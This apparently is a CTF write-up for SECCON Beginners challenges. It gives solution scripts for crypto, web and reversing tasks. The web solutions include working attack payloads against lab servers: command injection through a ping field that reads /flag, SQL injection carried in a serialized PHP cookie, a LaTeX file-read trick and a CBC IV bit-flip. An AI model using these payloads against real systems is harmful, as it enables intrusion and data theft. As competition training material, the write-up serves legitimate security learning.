 # SECCON Beginners CTF 2021

- https://github.com/SECCON/Beginners_CTF_2022

## Crypto

### CoughingFox

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=300s

#### Solution 1

```python
#!/usr/bin/env python3
from gmpy2 import isqrt
# c = (f + i)**2 + i
# f = sqrt(c - i) - i
# sqrt() が整数になるかどうかで i を判定する
cipher = [12147, 20481, 7073, 10408, 26615, 19066, 19363, 10852, 11705, 17445, 3028, 10640, 10623, 13243, 5789, 17436, 12348, 10818, 15891, 2818, 13690, 11671, 6410, 16649, 15905, 22240, 7096, 9801, 6090, 9624, 16660, 18531, 22533, 24381, 14909, 17705, 16389, 21346, 19626, 29977, 23452, 14895, 17452, 17733, 22235, 24687, 15649, 21941, 11472]
length = len(cipher)
flag = [0] * length
for c in cipher:
    for i in range(length):
        root = isqrt(c - i)
        if root**2 == c - i:
            flag[i] = root - i
            break
print(''.join([chr(ch) for ch in flag]))
```

### PrimeParty

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=948s

### command

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2345

#### Solution 1

```python3
#!/usr/bin/env python3
# 1ブロック (16bytes) 以下
# CBC ビットフリップ: IV を改ざんして任意の平文を作る
from Crypto.Util.Padding import pad
from Crypto.Util.strxor import strxor
from pwn import log, process, remote
# io = process('./chal.py')
io = remote('::1', 5555)
io.sendlineafter(b'> ', b'1')
io.sendlineafter(b'> ', b'fizzbuzz')
io.recvuntil(b'Encrypted command: ')
inp = bytes.fromhex(io.recvline(keepends=False).decode())
iv, enc = inp[:16], inp[16:]
plain = pad(b'fizzbuzz', 16)
target = pad(b'getflag', 16)
newiv = strxor(strxor(iv, plain), target)
cmd2 = (newiv+enc).hex()
io.sendlineafter(b'> ', b'2')
io.sendlineafter(b'Encrypted command> ', cmd2.encode())
log.success('FLAG: %s', io.recvline().decode())
io.sendlineafter(b'> ', b'3')
```

## Web

### util

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=550s

#### Solution 1

- 開発者ツール > Network > Name > `ping` を右クリック、Copy > Copy as cURL (bash)

```zsh
curl 'https://172.23.177.114/util/ping' \
  -H 'Content-Type: application/json' \
  --data-raw '{"address":"127.0.0.1; cat /flag*"}' \
  --insecure |
  jq .result | grep -o 'ctf4b{.*}'
```

### textex

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2070

#### Solution 1

```tex
\documentclass{article}
\usepackage{verbatim}
\newcommand{\ag}{ag}
\begin{document}
\verbatiminput{fl\ag}
\end{document}
```

### gallery

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2910

#### Solution 1

```sh
#!/bin/sh
curl -sk 'https://127.0.0.1/?file_extension=fla' | grep -o '\S*flag\S*'
curl -sk https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf | wc -c
curl -sk https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -r 0-10239 -o out1
curl -sk https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -r 10240- -o out2
cat out* >flag.pdf
```

#### Solution 2

```python
#!/usr/bin/env python3
import requests
url = 'https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf'
chunk = 10240
start = 0
with open("flag.pdf", "wb") as f:
    while True:
        headers = {"Range": f"bytes={start}-{start+chunk-1}"}
        r = requests.get(url, headers=headers, verify=False)
        if r.status_code == 416 or not r.content:
            break
        f.write(r.content)
        print(f"[*] Downloaded bytes {start}-{start+len(r.content)-1}")
        start += chunk
```

### serial

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=3845

#### Solution 1

ローカル環境で、docker を立ち上げる。
`html/user.php` の `login()` 関数に以下を加えて、COOKIE にセットする値を求める

```php
$user->name = "xxx' UNION SELECT 1, body, 1 FROM flags;#";
$user->password_hash = '1';
echo base64_encode(serialize($user));
```

```zsh
curl 'https://172.23.177.114/index.php' \
  -b '__CRED=Tzo0OiJVc2VyIjozOntzOjI6ImlkIjtzOjE6IjEiO3M6NDoibmFtZSI7czo0MToieHh4JyBVTklPTiBTRUxFQ1QgMSwgYm9keSwgMSBGUk9NIGZsYWdzOyM  iO3M6MTM6InBhc3N3b3JkX2hhc2giO3M6MToiMSI7fQ==' \
  -Ik | grep -o '__CRED=.*' | cut -d= -f2 | base64 -d
```

## reversing

### quiz

#### Solution 1

```
strings quiz|grep -o 'ctf4b{.*}'
```
